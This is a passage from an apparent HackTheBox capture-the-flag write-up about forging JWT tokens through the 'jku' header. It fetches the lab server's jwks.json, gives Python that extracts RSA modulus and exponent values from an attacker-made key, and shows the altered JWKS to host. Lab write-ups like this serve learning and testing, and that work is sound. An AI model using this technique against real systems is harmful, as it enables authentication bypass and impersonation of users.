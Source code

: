 In order to create a valid jku certificate you can download the original one anche change the needed parameters.
```bash
wget http://hackmedia.htb/static/jwks.json
```

You can obtain the parametes "`e`" and "`n`" from a public certificate using python -
* There is a issue with formatting hacktricks shows this value in hex format but our target server using possibly base64 format. We can still get these values with python but with different module and different techniques.
```python
from jwcrypto import jwk
import json
with open("keypair.pem", "rb") as pemfile:
    key = jwk.JWK.from_pem(pemfile.read())
jwks = key.export_public()
print(json.loads(jwks)['n'])
print(json.loads(jwks)['e'])
```

![](screenshots/get-e-n.png)

Replace `e` and `n` value in orignal `jwks.json` with new values.
```json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "5VB6YkmCCvY7UTdKNh4jUSxySy8Kew9A_ZIb3zilwMzXOgg8gThoicyR9pQmpjKrNWYz3eBueDkkjc7gHaN7H97rbpZq01NxsKGxWGqgO7JVSjq0o_YLPBztGFZ-R0tqZ-wzObuL8ZDnbm0vWdgFtxSVNAGB8eL0S-t9wMY6ALz8KXbYyWarH1FJpgYFtzrYRE6oJQsPCfgCzWIkKEV-dUyAcn7B2sVKjceEsI1JoKonQU4X6RJmU8PHFcjFqix2_fWUhVhLjVcKDHDNECY-h3jfd-1j_m0Na1F5eP87s_hSLdJVkaIiI4v6lOpFR7BxbN-UN9aCo_PE8thW3TavSw",
            "e": "AQAB"
        }
    ]
}
```
